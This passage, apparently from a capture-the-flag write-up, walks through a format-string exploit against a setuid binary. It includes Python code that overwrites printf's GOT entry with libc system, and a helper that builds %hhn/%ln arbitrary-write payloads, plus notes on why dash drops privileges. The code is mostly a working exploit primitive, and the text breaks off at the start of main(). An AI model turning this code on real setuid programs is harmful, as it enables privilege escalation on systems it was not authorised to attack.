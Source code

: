```python
    # Overwrite got entry with value of our goal function
    libc_system_addr = libc_base + libc_system_offset
    libc_system_addr_size = 6  # writing a null byte is problematic, just skip writing 2 high MSBs, as they're already 0
    buf_2 = b''
    buf_2 += gen_write_format(printf_got_offset, libc_system_addr, libc_system_addr_size)
    buf_2 += b'A' * (format_size - len(buf_2))
    buf_2 += struct.pack('<Q', printf_got)
    buf_2 += struct.pack('<Q', printf_got + 1)
    buf_2 += struct.pack('<Q', printf_got + 2)

    p0.send(buf_2)
    p0.recvuntil(b'what you got :P\n')

    p0.send(b'cat /flag')
    p0.interactive()
```

However, this approach doesn't works - due to system uses `/bin/sh -c` under the hood. Recall that by default dash drops privileges, by setting the `euid` to the `uid` of the process, prior to its execution. Hence, in case we would like to exploit this, we would have to call `setuid` first, setting all 3 `uid, saved-uid, euid` to the `euid` (which should be 0, as this is a suid binary). \
Good to mention this behavior of dash can by avoided by supplying the `-p` flag. Hence, calling the `execve` syscall while supplying the argument `/bin/sh -p` wouldv'e worked. 

However, apparently there's a `win` function - hence we do not need to call any libc function, making the exploit much easier:

```python
def gen_write_format(offset, value, value_size):
    ''' 
    This method assumes the goal addresses to-be-written resides within 'offset' bytes.
    value is the value to be written, and value_size denotes its byte count
    '''
    position = 6 + int(offset / 8)

    # First trick - trigger a write of 0, of length 8 bytes. That would clear all bits.
    payload = b''
    payload += b'%' + str(position).encode() + b'$ln'

    value_bytes = list(value.to_bytes(value_size, 'little'))
    value_bytes_sorted = sorted(value_bytes)

    prev_val = 0
    for val in value_bytes_sorted:
        val_index = value_bytes.index(val)
        if (val != prev_val):  # Handle duplication, no need to write more bytes
            payload += b'%' + str(val - prev_val).encode() + b'c'
        payload += b'%' + str(position + val_index).encode() + b'$hhn'
        prev_val = val
        value_bytes[val_index] = b'\xffffffff'  # Invalidate byte, to handle duplications

    payload += (8 - (len(payload) % 8)) * b'B'

    print(payload)

    return payload

def main():
    p0 = process(BINARY)
    rsp_to_format_offset = 0xe0

    format_size = 0x300
    format_to_printf_addr_offset = format_size
```
